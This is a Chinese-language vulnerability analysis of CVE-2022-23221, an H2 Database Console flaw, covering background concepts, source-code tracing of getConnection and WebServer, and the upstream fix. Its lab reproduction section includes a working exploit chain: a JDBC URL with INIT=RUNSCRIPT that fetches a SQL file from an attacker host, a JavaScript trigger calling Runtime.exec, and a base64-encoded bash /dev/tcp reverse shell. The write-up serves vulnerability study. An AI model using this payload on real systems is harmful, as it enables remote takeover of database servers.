


# CVE-2022-23221 CWE-88 H2 Database Console RCE

## 基础知识

- **H2 Database**：一个开源、轻量级的关系型数据库管理系统（RDBMS），用 Java 编写，适合 Java 应用的开发和测试，能够快速提供轻量级的数据存储解决方案，并能在嵌入式环境和小型应用中发挥作用。
- **H2 Database Console** :  一个基于 Web 的数据库管理工具，用于 H2 数据库引擎。它提供了一个用户友好的界面，允许用户执行 SQL 查询、管理数据库对象和执行各种管理任务。H2 数据库引擎是一个纯 Java、开源、轻量级的的关系数据库管理系统。
- **JNDI（Java Naming and Directory Interface）**:一个 Java API，它提供了一个访问各种资源的接口，如数据库服务、远程 Java 对象等。JNDI 注入是指攻击者通过控制 JNDI 查找的参数，使得应用程序去加载和执行攻击者指定的远程对象，从而实现远程代码执行。
- **Java 的反射机制**：在运行时动态获取类的信息和操作对象的能力。通过反射，程序可以在运行时加载、探索和使用类，而不需要在编译时确定它们的类型。这种机制极大地提高了 Java 的灵活性和可扩展性。

## 漏洞原理

H2 Database Console 提供了一个基于 Web 的管理界面，用于管理 H2 数据库。在某些配置下，这个控制台可以被外部用户访问而无需任何身份验证。攻击者可以利用这个控制台执行任意的 SQL 脚本，从而控制数据库服务器，执行系统命令，或者执行其他恶意操作。

漏洞产生的原因是 H2 Database Console 的配置不当，在 Spirng 开发中，如果我们设置如下选项，即可允许外部用户访问 Web 管理页面，且没有鉴权：

```java
spring.h2.console.enabled=true  //启用 H2 控制台
spring.h2.console.settings.web-allow-others=true //允许其他用户（非 localhost 用户）访问 Web 控制台。这使得控制台对局域网内的任何人开放
```

利用控制台的 Java 代码执行能力，攻击者可以构造 SQL 语句或触发器，以调用 `Runtime.exec()` 等方法来执行任意系统命令。例如，攻击者可以插入恶意的触发器，利用 Java 的反射机制执行外部命令。

## 漏洞定位

漏洞出现在管理界面的url输入， **/h2-2022-01-04/h2/src/main/org/h2/server/web/WebServer.java** 文件中第 **772** 行`getConnection`中。如果数据库 URL 指向 H2 数据库（jdbc:h2: 开头），执行以下逻辑：检查全局标志 allowSecureCreation 和传入的 userKey 是否匹配。如果不满足条件，且 ifExists 为 true：为 URL 添加参数 FORBID_CREATION=TRUE，防止自动创建数据库。

```java
Connection getConnection(String driver, String databaseUrl, String user,
        String password, String userKey, NetworkConnectionInfo networkConnectionInfo) throws SQLException {
    driver = driver.trim();
    databaseUrl = databaseUrl.trim();
    if (databaseUrl.startsWith("jdbc:h2:")) {
        if (!allowSecureCreation || key == null || !key.equals(userKey)) {
            if (ifExists) {
                databaseUrl += ";FORBID_CREATION=TRUE";
            }
        }
    }
    // do not trim the password, otherwise an
    // encrypted H2 database with empty user password doesn't work
    return JdbcUtils.getConnection(driver, databaseUrl, user.trim(), password, networkConnectionInfo);
}
```

当允许外部用户访问 Web 管理页面时，`key` 会被设置为 `null`，`allowSecureCreation` 的设置被忽略，同时`ifExists` 没有在输入的参数中被定义，将使用 WebServer 类的默认值，通常是 true。代码的本意是，要使传入的`payload`不被加入语句来禁止创建数据库，则需要使`allowSecureCreation`为`true`，否则将加入语句禁止创建数据库。

但是，当直接在 JDBC URL 中指定 `FORBID_CREATION=FALSE` 参数时，这个参数会覆盖 `WebServer` 类中的安全检查逻辑，因为 **JDBC URL 中的参数具有最高优先级**。这意味着，不管 `WebServer` 类中的设置如何，即使 `ifExists` 为 `true`，`FORBID_CREATION=FALSE` 参数也会覆盖这一设置，允许创建新的数据库。

所以只要对H2 Database Console 配置了允许其他用户访问 Web 控制台，任何人都能在控制台输入payload创建恶意数据库脚本。

## 影响版本

H2 Database < 2.1.210

## 环境搭建

1、启动docker环境，h2db版本为2.0.206。



2、访问`/h2-console`可以进入 H2 database 的管理界面。


## 漏洞复现

1、在 JDBC URL 中输入 poc 代码，发现能够直接进入。

```cmd
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\
```




2、将 pyload 进行 Base64 编码：将 shell 反弹至攻击机的6666端口。

```shell
bash -i >& /dev/tcp/192.168.233.133/6666 0>&1
```


3、利用得到的编码，创建数据库文件：h2database.sql

```sql
CREATE TABLE test(
     id INT NOT NULL
 );
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMzMvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}");';
```

4、构造 payload，在h2database.sql所在文件夹打开终端，通过攻击机的 80 端口获得 h2database.sql 恶意文件，点击`test connection`，并在攻击机通过`python3 -m http.server 80`命令监听80端口，可以看到请求成功。

```cmd
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://192.168.233.133:80/h2database.sql';\
```


5、使用命令`nc -lvnp 6666`在攻击机监听 6666 端口，可以看到成功反弹 shell 


## POC分析

```cmd
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\
```

当使用这个连接字符串连接时，H2 数据库会检查是否存在名为 `test1` 的内存数据库。如果不存在，因为 `FORBID_CREATION=FALSE`，它会创建一个新的内存数据库。然后就能够成功连接到数据库并进行操作。

1. `FORBID_CREATION=FALSE`：这个参数允许在连接时创建数据库。如果数据库不存在且该参数设置为 `FALSE`，则 H2 数据库会创建一个新的内存数据库 `test1`。如果设置为 `TRUE`，则如果数据库不存在，连接将会失败。
2. `IGNORE_UNKNOWN_SETTINGS=TRUE`：这个参数使 H2 数据库忽略未知的设置，不会因为遇到不认识的设置而导致连接失败。确保即使 URL 中包含了 H2 数据库不认识或不支持的参数，数据库连接仍然可以成功建立。
3. `FORBID_CREATION=FALSE`（重复出现）：这个参数再次声明允许创建数据库，虽然重复的参数在这种情况下不会造成问题，但通常只需设置一次即可。

## EXP分析

创建一个名为 test 的表，包含一个名为 id 的整数类型字段，且该字段不允许为空

```sql
CREATE TABLE test(
     id INT NOT NULL
 );
```

创建一个触发器 TRIG_JS，该触发器在每次向 test 表插入数据之前触发

```sql
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS 
```

通过 JavaScript 调用 Java 的反射机制调用 Runtime.exec() 方法来执行一个系统命令

```javascript
'//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,Base64 编码字符串}|{base64,-d}|{bash,-i}");';
```

1. `Java.type("java.lang.Runtime").getRuntime()`：获取 Java 运行时对象，允许执行系统命令。
2. `bash -c`：表示使用 Bash 解释器执行后续命令。
3. `|{base64,-d}`：将 Base64 编码的字符串解码。
4. `|{bash,-i}`：将解码后的结果作为交互式 Bash shell 的输入。

## 漏洞跟踪

### 跟踪初始化设置选项

1、H2 数据库官方文档中的一个 HTML 文件`h2-2022-01-04\h2\docs\html\advanced.html`，这个文件包含了 H2 数据库的高级使用技巧和配置信息，第1425行，可以通过命令行选项来启用远程访问,，其中`-webAllowOthers`选项：允许其他计算机通过 Web 界面连接到 H2 数据库。

```html
<h2 id="remote_access">Protection against Remote Access</h2>
<p>
By default this database does not allow connections from other machines when starting the H2 Console,
the TCP server, or the PG server. Remote access can be enabled using the command line
options <code>-webAllowOthers, -tcpAllowOthers, -pgAllowOthers</code>.
</p>
```

2、在搭建环境的docker文件夹中，我们修改了h2的原来启动脚本h2.sh，并将`org.h2.tools.Console`工具替代为`org.h2.tools.Server`工具，前者用于设置直接与数据库交互的命令行工具；后者则用于启动和管理 H2 数据库服务器的工具，包括TCP及Web服务器，同时增加了参数`-webAllowOthers`允许其他计算机连接到 H2 Console。这些参数被传递给 `org.h2.tools.Server` 的 `main` 方法中，这里着重看`-web`相关的参数。

```sh
# 允许外部访问 Web 控制台和数据库
java \
   ${JAVA_OPTIONS} \
   -cp /var/lib/h2/h2.jar \
   org.h2.tools.Server \
   -web -webDaemon -webAllowOthers -webPort 8082 \
   -tcp -tcpAllowOthers -tcpPort 9082 \
   -baseDir /usr/lib/h2 \
   ${H2_OPTIONS}
```

3、源码中定位至\h2-2022-01-04\h2\src\main\org\h2\tools\Server.java，在 `Server` 类的 `main` 方法中，所有的命令行参数都被传递给 `runTool` 方法。

```Java
//Server.java
public static void main(String... args) throws SQLException {
    new Server().runTool(args);
}
```

4、定位至 `runTool` 方法，在 `runTool` 方法中，根据传入的参数，决定是否启动 TCP 服务器、Web 服务器等，并使用`createWebServer`方法创建相应的 `Server` 对象

```java
//Server.java
public void runTool(String... args) throws SQLException {
    // ...  ...
    else if (arg.startsWith("-web")) {
        if ("-web".equals(arg)) {
            startDefaultServers = false;
            webStart = true;
        } else if ("-webAllowOthers".equals(arg)) {
            // no parameters
        } 
	// ...  ...
    if (webStart) {
        web = createWebServer(args);
        web.start();
        // ...  ...
    }
    if (webStart) {
        web = createWebServer(args);
        web.start();
        // ...  ...
    }
    // ...  ...
}
```

5、定位至`createWebServer`方法，这里根据传入的参数不同有两个`createWebServer`方法，根据前面的分析，我们只传入了参数`arg`，使用调用的是第一个`createWebServer`方法。而第一个方法的返回值仅在传入的参数中增加了两项，之后调用第二个方法。简单来说第一个方法是对参数进行初始化再调用第二个方法。在第二个 `createWebServer` 方法中，创建 `WebServer` 的实例，并用这个实例创建 `Server` 对象，但是可以知道，只要我们设置了`-webAllowOthers`参数，`allowSecureCreation`的值都是`false`。

```java
//Server.java
public static Server createWebServer(String... args) throws SQLException {
    return createWebServer(args, null, false);
}

static Server createWebServer(String[] args, String key, boolean allowSecureCreation) throws SQLException {
    WebServer service = new WebServer();
    service.setKey(key);
    service.setAllowSecureCreation(allowSecureCreation);
    Server server = new Server(service, args);
    service.setShutdownHandler(server);
    return server;
}
```

### 跟踪web界面输入

1、定位至管理界面url输入点，文件路径：`/h2-2022-01-04/h2/src/main/org/h2/server/web/WebServer.java`，受影响的函数`getConnection`，如果数据库 URL 指向 H2 数据库（jdbc:h2: 开头），执行以下逻辑：检查全局标志 allowSecureCreation 和传入的 userKey 是否匹配。如果不满足条件，且 ifExists 为 true：为 URL 添加参数 FORBID_CREATION=TRUE，防止自动创建数据库。
要使传入的`payload`不被加入语句来禁止创建数据库，则需要使`allowSecureCreation`为`true`。

```java
//WebServer.java
/**
     * Open a database connection.
     *
     * @param driver the driver class name
     * @param databaseUrl the database URL
     * @param user the user name
     * @param password the password
     * @param userKey the key of privileged user
     * @param networkConnectionInfo the network connection information
     * @return the database connection
     */
    Connection getConnection(String driver, String databaseUrl, String user,
            String password, String userKey, NetworkConnectionInfo networkConnectionInfo) throws SQLException {
        driver = driver.trim();
        databaseUrl = databaseUrl.trim();
        if (databaseUrl.startsWith("jdbc:h2:")) {
            if (!allowSecureCreation || key == null || !key.equals(userKey)) {
                if (ifExists) {
                    databaseUrl += ";FORBID_CREATION=TRUE";
                }
            }
        }
        // do not trim the password, otherwise an
        // encrypted H2 database with empty user password doesn't work
        return JdbcUtils.getConnection(driver, databaseUrl, user.trim(), password, networkConnectionInfo);
    }
```

2、定位至`allowSecureCreation`被定义的位置，如果 `allowOthers` 是 `false`，则`key`以及 `allowSecureCreation` 会被设置为方法参数传入的值。这意味着，只有当服务器不允许其他计算机连接时，`key`以及`allowSecureCreation` 的值才会被更新。

```java
//WebServer.java
public void setKey(String key) {
    if (!allowOthers) {
        this.key = key;
    }
}

public void setAllowSecureCreation(boolean allowSecureCreation) {
    if (!allowOthers) {
        this.allowSecureCreation = allowSecureCreation;
    }
}
```

3、定位至`allowOthers`被定义的位置，可以看到在307行`init`方法中，如果命令行参数中包含 `-webAllowOthers`，则 `allowOthers` 会被设置为 `true`（329行），所以我们在初始化启动时会将`allowOthers` 设置为 `true`，同时`key`会被设置为`null`（365行）。根据第2步可知`allowSecureCreation` 的值将被忽略设置

```java
//WebServer.java
public void init(String... args) {
    // set the serverPropertiesDir, because it's used in loadProperties()
    for (int i = 0; args != null && i < args.length; i++) {
        if ("-properties".equals(args[i])) {
            serverPropertiesDir = args[++i];
        }
    }
    Properties prop = loadProperties();
    port = SortedProperties.getIntProperty(prop,
            "webPort", Constants.DEFAULT_HTTP_PORT);
    ssl = SortedProperties.getBooleanProperty(prop,
            "webSSL", false);
    allowOthers = SortedProperties.getBooleanProperty(prop,
            "webAllowOthers", false);
 //... ...
    if (allowOthers) {
            key = null;
        }
    //... ...
```

5、回到第一步中的判断条件，当 `allowOthers` 为 `true` 时，`key` 变为 `null`，`allowSecureCreation` 的设置被忽略，同时`ifExists` 没有在输入的参数中被定义，将使用 WebServer 类的默认值，通常是 true，表示如果数据库已存在，则不创建。

## 漏洞修复

修复中，将判断语句删除，直接将判断条件加入到返回的函数参数中，禁止了添加的不当配置

```java
Connection getConnection(String driver, String databaseUrl, String user,
        String password, String userKey, NetworkConnectionInfo networkConnectionInfo) throws SQLException {
    driver = driver.trim();
    databaseUrl = databaseUrl.trim();

    // do not trim the password, otherwise an
    // encrypted H2 database with empty user password doesn't work
    return JdbcUtils.getConnection(driver, databaseUrl, user.trim(), password, networkConnectionInfo,
                ifExists && (!allowSecureCreation || key == null || !key.equals(userKey)));
}
```

## 参考链接

[漏洞复现](https://avoid.overfit.cn/post/1ee9bb170efa4d0193892ba2b7e00633)

[漏洞定位](https://seclists.org/fulldisclosure/2022/Jan/39)

[Add -webExternalNames setting and fix WebServer.getConnection() by katzyn · Pull Request #3377 · h2database/h2database](https://github.com/h2database/h2database/pull/3377/commits/eb75633d0dfa86341e6ef77a861665c4a0f16ab8)

[源码分析](https://www.jianshu.com/p/3213a7787c42)

[漏洞修复](https://github.com/h2database/h2database/pull/3377/commits/eb75633d0dfa86341e6ef77a861665c4a0f16ab8)
